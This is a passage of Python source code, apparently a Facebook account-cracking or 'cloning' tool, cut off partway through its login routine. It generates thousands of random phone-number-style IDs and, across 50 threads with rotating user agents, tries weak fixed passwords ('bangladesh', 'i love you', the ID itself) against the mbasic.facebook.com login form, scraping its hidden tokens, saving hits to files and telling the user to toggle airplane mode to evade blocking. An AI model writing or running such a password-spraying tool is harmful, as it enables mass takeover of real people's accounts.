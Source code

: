     print(logo)
    print("             \033[1;97m[\033[1;33mL I M I T  M E N U \033[1;97m]")
    print("    \033[38;5;46m-\033[38;5;196m-\033[1;35m-\033[1;34m-\033[1;33m-\033[1;32m-\033[1;97m-\033[38;5;196m-\033[38;5;46m-\033[1;35m-\033[1;34m-\033[1;33m-\033[1;32m-\033[1;97m-\033[38;5;196m-\033[38;5;46m-\033[1;32m-\033[1;35m-\033[1;34m-\033[1;97m-\033[1;33m-\033[38;5;196m-\033[1;35m-\033[1;34m-\033[1;33m-\033[1;32m-\033[1;97m-\033[38;5;196m-\033[38;5;46m-\033[38;5;196m-\033[1;32m-\033[1;97m-\033[1;35m-\033[1;34m-\033[1;33m-\033[38;5;46m-\033[1;97m-\033[1;32m-\033[1;33m-\033[38;5;196m-")
    print("    \033[97;1m[\033[92;1m+\033[97;1m] \033[1;97mEXAMPLE      \033[38;5;196m: \033[1;35m10000\033[1;97m , \033[1;34m20000\033[1;97m , \033[1;32m30000")
    limit = int(input("    \033[97;1m[\033[92;1m?\033[97;1m] \033[1;97mCRACK ID LIMIT \033[38;5;196m: \033[1;32m"))
    
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(8))
        user.append(nmp)
    with ThreadPool(max_workers=50) as setu:
        clear()
        tl = str(len(user))
        jalan('     \033[97;1m[\033[92;1m+\033[97;1m] \033[92;1mAGENTS    \033[38;5;196m: \033[1;32m'+str(len(ugen)))
        jalan('     \033[97;1m[\033[92;1m+\033[97;1m] \033[92;1mSIM CODE  \033[38;5;196m: \033[1;32m'+code)
        jalan('     \033[97;1m[\033[92;1m+\033[97;1m] \033[92;1mCRACK ID  \033[38;5;196m: \033[1;32m'+tl)
        print('     \033[97;1m[\033[92;1m+\033[97;1m] \033[93;1mFILE SAVE \033[38;5;196m: \033[38;5;46mMahin-XD-OK.txt')
        print('     \033[97;1m[\033[92;1m+\033[97;1m] \033[93;1mFILE SAVE \033[38;5;196m: \033[38;5;196mMahin-XD-CP.txt')
        print("     \033[38;5;46m-\033[38;5;196m-\033[1;35m-\033[1;34m-\033[1;33m-\033[1;32m-\033[1;97m-\033[38;5;196m-\033[38;5;46m-\033[1;35m-\033[1;34m-\033[1;33m-\033[1;32m-\033[1;97m-\033[38;5;196m-\033[38;5;46m-\033[1;32m-\033[1;35m-\033[1;34m-\033[1;97m-\033[1;33m-\033[38;5;196m-\033[1;35m-\033[1;34m-\033[1;33m-\033[1;32m-\033[1;97m-\033[38;5;196m-\033[38;5;46m-\033[38;5;196m-\033[1;32m-\033[1;97m-\033[1;35m-\033[1;34m-\033[1;33m-\033[38;5;46m-\033[1;97m-\033[1;32m-\033[1;33m-\033[38;5;196m-")
        jalan("     \033[97;1m[\033[92;1m✓\033[97;1m] \033[1;97mFIRST \033[1;34m[\033[1;32mON\033[1;97m/\033[38;5;196mOFF\033[1;34m] \033[1;97mAIRPLANE MODE🚀")
        jalan("     \033[97;1m[\033[92;1m✓\033[97;1m] \033[1;97mMIX IDZ CLONING ENJOY DEAR USER ✔")
        print("     \033[38;5;46m-\033[38;5;196m-\033[1;35m-\033[1;34m-\033[1;33m-\033[1;32m-\033[1;97m-\033[38;5;196m-\033[38;5;46m-\033[1;35m-\033[1;34m-\033[1;33m-\033[1;32m-\033[1;97m-\033[38;5;196m-\033[38;5;46m-\033[1;32m-\033[1;35m-\033[1;34m-\033[1;97m-\033[1;33m-\033[38;5;196m-\033[1;35m-\033[1;34m-\033[1;33m-\033[1;32m-\033[1;97m-\033[38;5;196m-\033[38;5;46m-\033[38;5;196m-\033[1;32m-\033[1;97m-\033[1;35m-\033[1;34m-\033[1;33m-\033[38;5;46m-\033[1;97m-\033[1;32m-\033[1;33m-\033[38;5;196m-")
        for love in user:
            pwx = [love,'bangladesh','i love you']
            uid = code+love
            setu.submit(rcrack,uid,pwx,tl)
    print('\n    CRACK PROCESS HAS BEEN COMPLETED ')
 
def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,